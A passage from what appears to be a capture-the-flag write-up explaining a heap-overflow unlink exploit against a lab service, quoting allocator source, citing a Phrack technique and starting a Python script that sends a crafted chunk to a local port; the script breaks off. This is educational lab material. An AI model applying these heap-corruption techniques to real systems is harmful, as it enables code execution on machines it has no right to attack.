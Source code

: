 ![image2](https://raw.githubusercontent.com/YazoSh/ctf-writeups/master/images/final2-2.png)

now that we have full controll of our chunk's data, all we need is to trigger the unlink macro in the Doug Lea algorithem
and manipulate the FD and BK pointers.

the first block is freed first so all we have to do is to trigger the 'consolidate forward if'.

```C
 if (!(inuse_bit_at_offset(next, nextsz)))   /* consolidate forward */
  {
    sz += nextsz;

    if (!islr && next->fd == last_remainder(ar_ptr))
                                              /* re-insert last_remainder */
    {
      islr = 1;
      link_last_remainder(ar_ptr, p);
    }
    else
      unlink(next, bck, fwd);

    next = chunk_at_offset(p, sz);
  }
```  
which calles the unlink macro on the next block if it's free by checking the next next chunk's prev_inuse bit
but, we cant create an another block to clear its prev_inuse bit cause we'll just get stuck in a paradox.

se we use a trick mentioned in the [Prack article Once upon a free()](http://phrack.org/issues/57/9.html)
and sit chunk2's prevsize and size to 0xfffffffc which will trick the 'inuse_bit_at_offset' macro by overflowing the 'next' pointer to point to the same chunk
which we set to have a cleared inuse_bit and triggering our 'if'

```python
import socket
import struct

s = socket.socket(socket.AF_INET)
s.connect(('127.1', 2993))

# first chunk
ck1 = "FSRD/0000ROOT/1111"
ck1 += "/" * (128 - (len(ck1)))
s.send(ck1)

# second chunk
```